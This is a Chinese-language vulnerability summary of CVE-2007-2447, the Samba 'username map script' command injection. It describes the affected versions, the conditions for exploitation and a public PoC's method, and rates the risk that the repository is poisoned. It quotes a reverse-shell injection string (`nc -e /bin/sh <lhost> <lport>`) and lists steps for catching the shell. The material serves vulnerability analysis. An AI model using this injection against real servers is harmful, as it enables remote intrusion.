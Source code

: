 ## CVE-2007-2447 - Samba usermap script 命令注入

**漏洞编号:** CVE-2007-2447

**漏洞类型:** 命令注入

**影响应用:** Samba

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** 3.0.0 through 3.0.25rc3

**利用条件:** 需要目标系统启用 'username map script' 配置选项。需要能够通过SMB协议连接到目标系统。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2007-2447 存在于 Samba 的 MS-RPC 功能中。当启用了 `username map script` 选项时，攻击者可以通过 `SamrChangePassword` 函数利用此漏洞，注入包含 shell 元字符的恶意命令。该漏洞允许远程攻击者执行任意命令。提供的 exploit.py 脚本通过设置包含反弹 shell 命令的用户名来利用此漏洞。具体来说，它构造一个包含 `nc -e /bin/sh <lhost> <lport>` 命令的用户名，并将其设置为 SMB 连接的用户名。当 Samba 尝试使用该用户名执行 `username map script` 时，命令注入就会发生，从而建立一个反向 shell。虽然该脚本较为简单，但如果目标配置满足漏洞利用的条件，则它应该可以成功利用该漏洞。

关于投毒风险，代码主体逻辑清晰，主要实现漏洞利用，没有明显的恶意行为。`README.md` 中存在github地址,可以进行溯源，降低投毒的可能性. 但任何时候都不能完全排除投毒的可能性，尤其是在使用第三方提供的代码时。建议在使用前仔细审查代码。

**利用方式：**

1.  **环境准备：** 确保目标 Samba 服务器版本在 3.0.0 到 3.0.25rc3 之间，并且启用了 `username map script` 配置选项。
2.  **监听端口：** 在攻击者机器上设置一个 Netcat 监听器 (`nc -lvnp <lport>`)。
3.  **执行漏洞利用脚本：** 运行 exploit.py 脚本，提供目标 IP 地址 (`rhost`)、端口 (`rport`)，以及攻击者机器的 IP 地址 (`lhost`) 和监听端口 (`lport`)。
4.  **获取 Shell：** 如果漏洞利用成功，攻击者将在 Netcat 监听器上获得一个反向 shell。

**项目地址:** [Alien0ne/CVE-2007-2447](https://github.com/Alien0ne/CVE-2007-2447)

**漏洞详情:** [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)
